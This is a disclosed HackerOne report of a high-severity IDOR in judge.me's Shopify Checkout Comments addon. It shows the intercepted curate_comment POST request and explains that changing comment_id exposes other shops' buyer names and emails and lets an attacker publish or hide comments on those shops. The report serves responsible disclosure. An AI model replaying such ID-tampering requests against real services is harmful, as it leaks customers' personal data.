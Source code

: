 # IDOR: leak buyer info & Publish/Hide foreign comments

## Report Details
- **Report ID**: 1410498
- **URL**: https://hackerone.com/reports/1410498
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-11-26T00:21:26.546Z
- **Disclosed**: 2022-03-31T14:04:41.478Z

## Reporter
- **Username**: chupa-chups
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: judgeme

## Vulnerability Information
HI @judgeme!
I noticed that the attacker can learn email users who left feedback at the time of buying.

Step to reproduce:

1. Login to our store and install your 'Checkout Comments' addon
2. Make fake order in or store and write a comment

███

3. Then go to our Shopify `/admin/apps/checkout-comments/extensions/checkout_comments/comments`
4. Publish our comment and Intercept request with burp. Send request to Repeater. Request example:

POST /extensions/checkout_comments/curate_comment HTTP/1.1
Host: judge.me
Cookie: _judgeme_session=████████████████; _ga=GA1.2.1935027813.1637882690; _gid=GA1.2.2043288340.1637882690; _fbp=fb.1.1637882690590.2069272048; _gat_UA-28424713-2=1
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://judge.me/extensions/checkout_comments/comments?platform=shopify&shop_domain=test-hackerone-glis.myshopify.com&page=3&offset=50
X-Csrf-Token: ████==
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 23
Origin: https://judge.me
Te: trailers
Connection: close

comment_id=1&curated=ok



5. Edit `comment_id=random_id` and in Response we can see buyer information (for example):


`{"comment":{"id":1,"content":"classic dress watch for weddings","created_at":"over 3 years ago","product":{"title":"Dress Watch","url":"https://████.myshopify.com/products/dress-watch"},"buyer":{"name":"F F","email":"██████████@gmail.com"},"published_status":true,"published_status_text":"Published","curated":"ok"}}`


██████



Video POC:



██████

## Impact

Buyer information leaks and other

## Attachments
No attachments
